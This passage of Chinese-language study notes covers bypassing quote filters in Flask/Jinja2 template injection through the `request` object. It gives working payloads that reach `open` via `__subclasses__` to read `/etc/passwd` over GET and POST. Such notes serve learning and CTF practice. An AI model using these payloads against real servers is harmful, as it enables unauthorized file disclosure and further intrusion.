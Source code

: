 >![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230803023115250.png)

或者还有借助`request`对象，`request.args` 是flask中的一个属性,为返回请求的参数,这里把 path 当作变量名,将后面的路径传 值进来,进而绕过了引号的过滤

`{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40) (request.args.path).read() }}&path=/etc/passwd`

`request`还有以下几种

```
request.args.name
request.cookies.name
request.headers.name
request.values.name
request.form.name
```

payload如下

GET方式，利用request.args传递参数

`{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}`
``&arg1=open&arg2=/etc/passwd`
POST方式，利用request.values传递参数

`{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read()}}`
`post:arg1=open&arg2=/etc/passwd`
Cookie方式，利用request.cookies传递参数
